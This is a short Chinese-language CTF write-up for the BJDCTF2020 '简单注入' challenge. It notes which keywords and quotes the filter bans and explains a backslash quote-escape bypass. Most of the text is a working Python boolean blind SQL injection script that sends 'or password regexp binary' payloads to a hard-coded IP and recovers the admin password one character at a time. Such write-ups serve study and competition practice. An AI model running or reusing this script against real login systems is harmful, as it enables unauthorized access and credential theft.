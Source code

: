 https://github.com/BjdsecCA/BJDCTF2020_March

https://www.gem-love.com/ctf/2097.html#i-5

https://blog.csdn.net/woshisz0413/article/details/84560421

## 简单注入

看了wp

先fuzz

可以发现：

- 单引号 双引号都被ban了
- union和select都被ban了
- =和like被ban了

 过滤了引号没过滤`\`，post`username=\&password=||1#`发现回显不一样了，布尔盲注 

虽然知道是布尔注入但是不知道登录密码

```python
################################
# 颖奇L'Amore www.gem-love.com #
# 转载请勿删除本水印             #
################################
import os
import requests as req

def ord2hex(string):
  result = ''
  for i in string:
    result += hex(ord(i))
  result = result.replace('0x','')
  return '0x'+result


url = "http://123.57.144.205:2333/"
string = [ord(i) for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789']
headers = {
      'User-Agent':'Mozilla/5.0 (Windows NT 6.2; rv:16.0) Gecko/20100101 Firefox/16.0',
      'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
      'Connection':'keep-alive'
    }

res = ''
for i in range(50):
  for j in string:
    passwd = ord2hex('^'+res+chr(j))
    # print(passwd)
    passwd = 'or password regexp binary {}#'.format(passwd)
    data = {
      'username':"admin\\",
      'password':passwd
    }

    r = req.post(url, data=data, headers=headers)
    # print(r.text)
    if "BJD need" in r.text:
      res += chr(j)
      print(res)
      break
```
